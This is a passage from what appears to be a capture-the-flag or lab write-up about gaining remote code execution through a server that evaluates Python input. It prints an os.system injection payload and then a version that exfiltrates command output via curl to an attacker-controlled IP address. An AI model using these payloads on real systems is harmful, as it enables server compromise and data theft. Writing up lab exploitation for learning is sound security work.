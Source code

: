 
# EXPLOITATION
---

Let's try some basic `RCE` using this:

```python
__import__('os').system('id')
```

![Pasted image 20250504142444.png](../../IMAGES/Pasted%20image%2020250504142444.png)

![Pasted image 20250504142457.png](../../IMAGES/Pasted%20image%2020250504142457.png)

We get an internal server error, this happens due to the payload being evaluated by the server and then converting the non numerical string (`xa`) to an integer, this causes a `ValueError`, which throws us the `500` status code error.

So, how can we achieve the `RCE`? 

We can simply set up a python server and encode the contents of the command we are dealing with using `base64` so we can notice if the server actually executes the command, let's do the following command:

```python
__import__('os').system('curl http://10.11.136.34:8000?pwned=$(id|base64)')
```

